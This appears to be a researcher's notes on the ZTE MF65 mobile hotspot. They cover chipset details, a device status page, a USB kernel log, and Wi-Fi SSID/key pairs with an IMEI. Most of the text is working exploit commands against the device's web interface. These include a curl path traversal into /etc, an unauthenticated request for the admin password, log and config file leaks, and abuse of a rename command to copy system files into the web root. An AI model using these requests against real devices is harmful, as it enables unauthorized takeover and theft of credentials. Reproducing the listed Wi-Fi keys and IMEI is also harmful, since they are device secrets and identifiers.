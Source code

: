 
SSID and KEY:
```
TPPWF_4D2A7C:87347788DD
TPPWF_0F5F73:873496E4EC


```
Gobi 3000	Sierra	MC8705	MDM8200
**sk hynix H9DA1GG51JBM**
- 1GB RAM / MMC ?

**qualcomm mdm8200a**
- Modem Chipset ?
- Single-mode modem
- Only supports HSPA+ with data rates of up to 28 Mbit/s
- GPS functionality, including support for Assisted GPS

**qualcomm rtr6285**

- SINGLE-CHIP MULTI-BAND UMTS/EGPRS TRANSCEIVER WITHIN TEGRATED RECEIVE DIVERSITY AND GPS

## Products

- ZTE MF65 3G HSPA+ 21Mbps Mobile Hotspot

```
SIM Card Number — —
IMEI 867307019770164
IMSI — —
Signal Strength — —
Network Name (SSID) TPPWF_4D2A7C Change
Max Access Number 5
LAN Domain m.home
IP Address 192.168.0.1
WAN IP Address — —
Software Version MF65_T02
Firmware Version MF65_T02
Hardware Version MF65-1.0.0
```

USB
```
[10090.548237] usb 1-6: new high-speed USB device number 6 using xhci_hcd
[10090.709964] usb 1-6: New USB device found, idVendor=19d2, idProduct=0016, bcdDevice=f0.ae
[10090.709981] usb 1-6: New USB device strings: Mfr=3, Product=2, SerialNumber=0
[10090.709989] usb 1-6: Product: ZTE WCDMA Technologies MSM
[10090.709995] usb 1-6: Manufacturer: ZTE,Incorporated
[10090.765082] usbcore: registered new interface driver usbserial_generic
[10090.765099] usbserial: USB Serial support registered for generic
[10090.771574] usbcore: registered new interface driver option
[10090.771593] usbserial: USB Serial support registered for GSM modem (1-port)
[10090.771698] option 1-6:1.0: GSM modem (1-port) converter detected
[10090.771834] usb 1-6: GSM modem (1-port) converter now attached to ttyUSB0
[10090.771891] option 1-6:1.1: GSM modem (1-port) converter detected
[10090.771958] usb 1-6: GSM modem (1-port) converter now attached to ttyUSB1
[10090.772005] option 1-6:1.2: GSM modem (1-port) converter detected
[10090.772065] usb 1-6: GSM modem (1-port) converter now attached to ttyUSB2
[10102.322077] usb 1-6: USB disconnect, device number 6
[10102.322722] option1 ttyUSB0: GSM modem (1-port) converter now disconnected from ttyUSB0
[10102.322796] option 1-6:1.0: device disconnected
[10102.323266] option1 ttyUSB1: GSM modem (1-port) converter now disconnected from ttyUSB1
[10102.323337] option 1-6:1.1: device disconnected
[10102.323730] option1 ttyUSB2: GSM modem (1-port) converter now disconnected from ttyUSB2
[10102.323798] option 1-6:1.2: device disconnected
```


## PAth Traversal

```
curl --location 'http://192.168.0.1/goform/goform_set_cmd_process' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'isTest=false' \
--data-urlencode 'goformId=HTTPSHARE_ENTERFOLD' \
--data-urlencode 'path_SD_CARD=/etc' \
--data-urlencode 'indexPage=1'
```

## How to connect WIFI?
``` js
defined.service.connectHotspot({EX_SSID1: 'home',EX_AuthMode: "WPAPSKWPA2PSK", EX_EncrypType: "CCMP",EX_WPAPSK1:"oranganggo",
                               EX_wifi_profile:"Profile2"})
```

## Get admin password

http://192.168.0.1/goform/goform_get_cmd_process?isTest=false&cmd=admin_Password

## WEB FILE LEAKS

http://192.168.0.1/goahead.log
http://192.168.0.1/pppoelog.log

curl -i http://192.168.0.1/zte_log/temp

curl -i 'http://192.168.0.1/copy/etc/dnsmasq.conf'

curl -i 'http://192.168.0.1/copy/etc/udhcpd.conf'


## Rename and download
Note: cannot download .txt file, rename to other ext then download
curl --location 'http://192.168.0.1/goform/goform_set_cmd_process' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'isTest=false' \
--data-urlencode 'goformId=HTTPSHARE_FILE_RENAME' \
--data-urlencode 'path_SD_CARD=/' \
--data-urlencode 'OLD_NAME_SD_CARD=/etc/dnsmasq.conf' \
--data-urlencode 'NEW_NAME_SD_CARD=/web/dnsmasq.conf'

curl -i 'http://192.168.0.1/copy/etc/udhcpd.conf'

# ./files.sh /web/userseting_nvconfig.txt
# ./files.sh /nvconfig_debug